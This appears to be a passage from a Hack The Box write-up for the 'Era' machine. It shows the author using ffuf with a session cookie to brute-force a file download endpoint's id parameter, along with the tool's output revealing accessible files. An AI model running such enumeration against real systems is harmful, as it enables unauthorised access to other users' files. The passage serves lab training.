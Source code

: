 ![dashboard after logging in](image-2.png)

We play around, and found out that when we download, we go to this url: `http://file.era.htb/download.php?id=5924&dl=true`
Let's try to bruteforce the `id=5924`, maybe we'll find interesting finds.

So, first we need to create `numbers.txt` using this command:
```bash
seq 1 10000 > numbers.txt
```

Next, using `ffuf` we can do the bruteforce. don't forget to supply your PHPSESSID cookie. the `-fs` flag is to filter all the none special responses, i check before what is the size.

```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ ffuf -w numbers.txt -u "http://file.era.htb/download.php?id=FUZZ&dl=true" --cookie="PHPSESSID=20hto9b745ln46tirjae199vl4" -fs 7686

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://file.era.htb/download.php?id=FUZZ&dl=true
 :: Wordlist         : FUZZ: /home/agonen/htb/Era/numbers.txt
 :: Header           : Cookie: PHPSESSID=20hto9b745ln46tirjae199vl4
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7686
________________________________________________

150                     [Status: 200, Size: 2746, Words: 12, Lines: 9, Duration: 314ms]
54                      [Status: 200, Size: 2006697, Words: 7361, Lines: 7445, Duration: 154ms]
```